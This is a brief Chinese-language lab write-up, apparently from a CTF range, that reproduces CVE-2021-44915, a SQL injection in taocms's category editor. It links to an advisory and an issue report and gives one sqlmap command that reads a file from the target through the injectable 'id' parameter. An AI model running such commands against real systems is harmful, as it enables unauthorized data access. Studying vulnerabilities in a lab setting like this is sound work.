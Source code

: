 ```yaml
---
title: CVE-2021-44915【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44915)

## 2. 漏洞分析

[There is SQL blind injection at "Edit category"(Column administrator authority) · Issue #8 · taogogo/taocms · GitHub](https://github.com/taogogo/taocms/issues/8)

## 3. 漏洞复现

sqlmap

```bash
python sqlmap.py -r post.txt -p id  --batch --file-read "/flag"
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309141601029.jpg)

手动注入参见漏洞分析
